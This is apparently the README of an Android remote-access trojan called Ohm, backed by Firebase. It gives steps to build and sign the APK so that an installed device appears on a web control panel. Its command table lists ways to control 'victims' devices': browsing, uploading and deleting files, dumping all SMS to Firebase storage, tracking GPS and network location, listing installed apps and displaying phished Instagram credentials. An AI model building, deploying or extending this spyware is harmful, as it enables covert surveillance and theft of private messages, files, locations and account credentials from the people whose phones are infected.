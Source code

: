 1. In Project ID Field after putting your Project Name add ``` -default-rtdb``` . Example > myproject```-default-rtdb```
1. <img src="images/img3.png">
1. Now click on **Run** to Build the App , use any APK Signer Tool to sign it.
1. You app is Now ready.
1. When user will install the app his/her session will appear on Web Panel click on the User to establish Connection with that specified Device.



### Tutorial Video
Part 1 | Part 2
-------|------
 [![Part1](./images/thumbnail1.png)](https://th30neand0nly.github.io/Ohm/images/part1.mp4) | [![Part2](./images/thumbnail2.png)](https://th30neand0nly.github.io/Ohm/images/part2.mp4)

 Credits: Linuxndroid 

---

## List of Commands

Command | Definition | Example and Usage
--------|------------|---------
openfolder * <FOLDER_DIR> | This will Show the contents of Folder | ```openfolder * /sdcard/DCIM ```
uploadfile * <FILE_DIR> | This will Upload File To Firebase Storage From Device | ``` uploadfile * /sdcard/DCIM/Camera/image.png```
deletefile * <FILE_DIR> | This Will delete the specific file or folder | ```deletefile * /sdcard/DCIM/Camera/image.png```
makefolder * <FILE_DIR> | This will create a Folder | ```makefolder * /sdcard/My Folder/```
shownotify * <YOUR_MSG> | This will show notification | ```shownotify * Your Message```
openweburi * <YOUR_URI> | This will open external URL | ```openweburi * https://github.com/Th30neAnd0nly/Ohm```
playsmusic * <EXACT_MUSIC_URL> | This will play the music in Victims Device from the given music URL | ```playsmusic * https://www.soundhelix.com/examples/mp3/SoundHelix-Song-1.mp3```
vibratedevice * <TIME_IN_MS> | Vibrates the victims Device for 'x' milliseconds | ``` vibratedevice * 500```
speachtext * <YOUR_MSG> | This will Use Text To Speach to output your message | ``` speachtext * How are You```
deviceflashon | Turns on the flash light of device | ```deviceflashon```
deviceflashoff | Turns of the flash light of victims Device | ```deviceflashoff```
changewallpaper | Changes the device wallpaper to [this](https://github.com) | ``` changewallpaper```
internaldir | Shows the Internal Storage files and Folders | ```internaldir```
installedapps | Shows the package name of all the installed apps | ```installedapps```
sysinfo | Shows The System Information | ```sysinfo```
dumpsms | Dumps all the SMS and uploads file to Firebase Storage | ```dumpsms```
showphishdata | Shows the Phished Credentials of  [Instagram](https://github.com/Th30neAnd0nly/PI) |  ```showphishdata```
getgpslocation | Shows the GPS location | ```getgpslocation```
getnetworklocation | Shows the Network Location | ```getnetworklocation```
help | Shows all the commands | ``` help```
clear | Clears the Web Terminal | ```clear```
